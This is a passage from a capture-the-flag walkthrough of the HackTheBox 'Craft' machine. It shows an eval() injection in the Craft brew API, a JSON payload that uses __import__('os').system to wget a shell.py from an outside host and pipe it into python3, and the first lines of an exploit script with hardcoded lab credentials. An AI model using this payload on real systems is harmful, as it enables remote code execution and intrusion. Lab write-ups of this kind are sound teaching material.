 This problem can be avoided by using the function *import* actually implements: [*\_\_import\_\_*][7]. Whereas *import* loads a module and makes it available to the local namespace, *\_\_import\_\_* simply loads the module and returns it. The return can be used to assign to a variable or chained to call module functions. Tested in the console:
```python
test = __import__("os")
os.system("whoami")                 # ERROR b/c os not in namespace
test.system("whoami")               # Executes os.system function
__import__("os").system("whoami")   # Executes os.system function
```
This info can be chained together to exploit Craft's API. The vulnerable snippet: 
```python
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

Note that it doesn't matter whether the input passes the conditional, as long as it's executing the code. The payload is sent in json via a POST to *https://api.craft.htb/api/brew*. An example payload:
```js
{
    "id": 4222,
    "brewer": "Stewy Brewy",
    "name": "SplashTown Heckahol",
    "style": "YPA",
    "abv": '__import__("os").system("wget -q -O- http://10.10.14.28/shell.py | python3 &")' 
}
```

This results in the following code being run on the victim: 
```python
eval('__import__("os").system("wget -q -O- http://10.10.14.28/shell.py | python3 &") > 1')
```

Because the payload returns an int, this is valid python and will be executed.
```python
type(__import__("os").system("wget -q -O- http://10.10.14.28/shell.py | python3 &"))
# <class 'int'>
```

[Complete exploit code can be found in the appendix.](#injection_exploitpy)  

___


## **Appendix**

# injection_exploit.py

```python 
#!/usr/bin/env python3
import argparse
import requests


# Globals
username = "dinesh"
password = "4aUh0A8PbVJxgd"
target_url = "https://api.craft.htb/api/brew/"
auth_url = "https://api.craft.htb/api/auth/login"


# Returns token
def authenticate():
```

[1]: https://www.vaultproject.io/ "Vault by HashiCorp"
[2]: https://gogs.io/ "Gogs is a self-hosted Git service"
[3]: https://www.hackthebox.eu/home/machines/profile/197 "HackTheBox: Craft"
[4]: https://docs.python.org/3/library/functions.html?highlight=eval#eval "Python3 eval function"
[5]: https://docs.python.org/3/library/os.html?highlight=os#module-os "Python3 os.system"
[6]: https://docs.python.org/3/reference/simple_stmts.html#import "Python3 Import statement"
[7]: https://docs.python.org/3/library/functions.html#__import__ "Python3 __import__ function"